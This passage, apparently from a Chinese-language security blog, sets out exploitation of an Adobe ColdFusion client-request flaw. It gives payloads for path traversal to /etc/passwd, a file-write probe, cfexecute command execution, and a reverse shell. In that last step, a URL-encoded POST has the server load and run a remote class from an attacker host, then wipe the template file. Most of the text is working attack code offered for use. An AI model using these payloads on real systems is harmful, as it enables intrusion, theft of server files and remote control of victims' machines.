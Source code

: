 2、针对有回显linux启动位置路径会有不同判断  
```
_variables={"_metadata":{"classname":"../../../../../../../../../../../../etc/passwd","_variables":[]}}
```  
  
3、针对windows和linux无回显判断  
```
_variables=<cfscript>fileWrite('../../../../../wwwroot/cf_scripts/aaaa.txt','aaaaaa');</cfscript>  //写入文件
https:/xxxxx.com/cf_scripts/aaaa.txt// 访问该文件存在说明漏洞存在
```  
## 命令执行  
```
_variables=<cfexecute name='ipconfig' outputFile='c:\a.txt' ></cfexecute>
```  
## 反弹shell（代码执行）  
  
漏洞原理是我们构建CFML数据客户端请求的数据会保存到服务器的coldfusion-out.log，这个目录会记录请求的错误的信息，coldfusion-out.log文件里面就有我们写入的代码了，然后我们使用classname读取执行这个日志文件达到代码执行的效果  
  
这边我有一个思路，就是通过把恶意的class放到服务器上面，然后下载保存调用这个class文件，调用通过上面的这个漏洞他会去动态的加载类，去调用执行我们的class文件  
  
这个写一个脚本，这个脚本会生成一个压缩包，这个压缩包里面  
  
压缩包code目录下  
```
utilize
    ├── address
    └── Poc.class
```  
  
Poc.java里面主要存放反弹的代码  
  
address存放地址和端口  
  
我们需要构建好一个java的字节码文件，然后设置反弹的IP和端口，然后开启web  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7kGL05YTyKoVQVNrfXDwprWtlOCmfBaOb4CcrKzKTchzN54p1DaPv5g/640?wx_fmt=gif&from=appmsg "")  
  
发写入日志文件的错误请求  
```
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=trueHTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0(Macintosh;IntelMac OS X 10_14_3)AppleWebKit/605.1.15(KHTML, like Gecko)Version/12.0.3Safari/605.1.15
Content-Length: 816
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables=%7b%3ccftry%3e%3ccfset%20szlh%20%3d%20createObject%28%27java%27%2c%27java.net.URL%27%29.init%28%27http://192.168.191.58:8888/GjfZgo%27%29/%3e%3ccfset%20cafb%20%3d%20createObject%28%27java%27%2c%27java.lang.reflect.Array%27%29/%3e%3ccfset%20ireh%20%3d%20cafb.newInstance%28szlh.getClass%28%29%2c1%29/%3e%3ccfset%20cafb.set%28ireh%2c0%2cszlh%29/%3e%3ccfset%20fxlt%20%3d%20createObject%28%27java%27%2c%27java.net.URLClassLoader%27%29.init%28ireh%2cjavaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfset%20fxlt.loadClass%28%27code.Payload%27%29.newInstance%28%29.main%28javaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfcatch%20type%3d%27any%27%3e%3c/cfcatch%3e%3ccffinally%3e%3ccffile%20action%3d%27write%27%20file%3d%27%23GetCurrentTemplatePath%28%29%23%27%20output%3d%27%27%3e%3c/cffile%3e%3c/cffinally%3e%3c/cftry%3e
```  
  